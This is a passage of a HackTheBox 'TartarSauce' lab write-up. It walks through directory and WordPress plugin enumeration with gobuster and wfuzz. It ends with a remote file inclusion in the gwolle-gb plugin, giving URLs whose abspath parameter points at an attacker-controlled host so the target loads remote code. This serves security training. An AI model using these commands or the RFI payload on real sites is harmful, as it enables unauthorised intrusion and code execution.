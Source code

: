 We see the /robots.txt

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2007:49:57.png)

When we try to access the /webservices we got a Forbidden

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:12:19.png)

So, we try to enumerate this folder to see if we are able to get some page

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.88/webservices
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:12:31.png)

And we found a /wp folder

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:12:44.png)

We see on the source code `tartarsauce.htb`

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:14:35.png)

So we add it on our **/etc/hosts** file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:14:53.png)

And now the site looks clear

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:15:06.png)

Seems to be a simple wordpress website

### Wordpress Plugin

We could run wpscan to find plugins, but I prefer to make it manually with wfuzz

```sh
wfuzz -c -t 500 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

And we found some, we search for exploit for this `gwolle` and found a RFI

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2008:18:14.png)

We read it and see how to attack it

```
...
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.3/
...
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
....
```
